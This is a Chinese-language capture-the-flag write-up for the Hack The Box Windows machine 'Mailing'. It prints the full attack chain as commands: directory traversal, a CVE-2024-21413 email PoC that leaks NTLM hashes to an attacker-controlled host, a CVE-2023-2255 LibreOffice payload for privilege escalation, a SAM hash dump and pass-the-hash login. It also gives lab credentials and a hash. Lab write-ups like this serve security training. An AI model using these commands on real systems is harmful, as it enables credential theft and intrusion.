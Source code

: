 ```yaml
---
title: "HTB-Mailing"
date: 2024-09-05
categories: 
  - "渗透测试"
tags: 
  - "hackthebox"
  - "windows"
---
```


## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Nmap

```
nmap -A -O -Pn mailing.htb
```

![](./images/image-66.png)

开放端口：`25`、`80`、`110`、`135`、`139`、`143`、`445`、`465`、`587`、`993`

Server：`hMailServer`

### Dirsearch

```
dirsearch -u mailing.htb -t 50
```

![](./images/image-67.png)

进入`http://mailing.htb`

点击Download，就是/download.php

![](./images/image-68.png)

## Directory Traversal

进行抓包，发现可以下载文件

![](./images/image-69.png)

尝试修改`file`参数，成功得到`hosts`文件

![](./images/image-70.png)

目前这个php文件至少能够读取文件

由于刚才`Nmap` ，扫描出来邮件服务是`hMailServer`

经过搜索以及`ChatGPT`，获取到路径为：`C:\Program Files (x86)\hMailServer\Bin\hMailServer.ini`

![](./images/image-71.png)

MD5解密后获得明文：`homenetworkingadministrator`

![](./images/image-72.png)

回到之前的`instruction.pdf`，在ending那里，发送第一封邮件之后，Maya会读取我们的邮件

![](./images/image-73.png)

通过pop3端口连接邮箱，不过里面什么都没有

![](./images/image-74.png)

## CVE-2024-21413

Github：

先打开监听器

```
responder -I tun0 -v
```

运行`poc`

```
python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url '\\10.10.16.8\PoC' --subject "Hello world"
```

![](./images/image-76.png)

![](./images/image-77.png)

在监听器处收到hash，尝试解密

![](./images/image-78.png)

得到maya的密码：`m4y4ngs4ri`

由于ssh端口没有开，不过可以测试winrm的端口`5985`

![](./images/image-79.png)

## Evil Winrm

```
evil-winrm -i mailing.htb -u maya -p 'm4y4ngs4ri'
```

![](./images/image-80.png)

成功进入。

在桌面拿到`user.txt`

![](./images/image-81.png)

## Privilege Escalation

在`Program Files` 文件夹下发现一个`LibreOffice`

![](./images/image-82.png)

将其License文件下载下来看

![](./images/image-83.png)

在`readme`中发现版本信息

![](./images/image-84.png)

### CVE-2023-2255

Github：[elweth-sec/CVE-2023-2255: CVE-2023-2255 Libre Office (github.com)](https://github.com/elweth-sec/CVE-2023-2255)

发现C盘下面的`Important Document`文件夹具有特殊权限

![](./images/image-85.png)

管理员和系统账户对目录有完全控制权限。Maya用户和已认证用户对目录具有修改权限。

```
python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'exploit.odt'
```

直接把maya加到管理员组里面去

![](./images/image-90.png)

稍等一会

![](./images/image-91.png)

使用`crackmapexec`来获取localadmin的哈希值

```
crackmapexec smb 10.10.11.14 -u maya -p "m4y4ngs4ri" --sam
```

![](./images/image-92.png)

最后使用`impacket-wmiexec`传入hash值登录

```
impacket-wmiexec localadmin@mailing.htb -hashes "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae"
```

![](./images/image-93.png)

## Summary

CVE-2024-21413获取hash原理：在邮件的 `--url` 参数中指定了一个 UNC 路径（`\\10.10.16.8\PoC`）。UNC 路径通常用于网络共享，当目标系统处理这个路径时，它会尝试与指定的服务器（`10.10.16.8`）建立连接。

在 Windows 系统中，当系统尝试访问 UNC 路径时，它可能会自动尝试进行身份验证。这个身份验证过程中，Windows 会发送 NTLMv2 哈希来验证用户身份。如果 `responder` 正在监听这个网络请求，它可以捕获这些哈希值。

如果这些哈希值能够被破解，那么就能够登录相应的服务或者系统。

NTLM 哈希认证机制的特性：NTLM 认证通常与 SMB协议配合使用，通常会使用 TCP 445 端口进行通信。NTLM 认证的机制允许通过密码的哈希值进行身份验证，`impacket-wmiexec`使用 NT 哈希（通过 Pass-the-Hash 技术）来模拟用户身份，从而无需输入密码就能执行远程命令。

windows的题目还是接触太少了😥
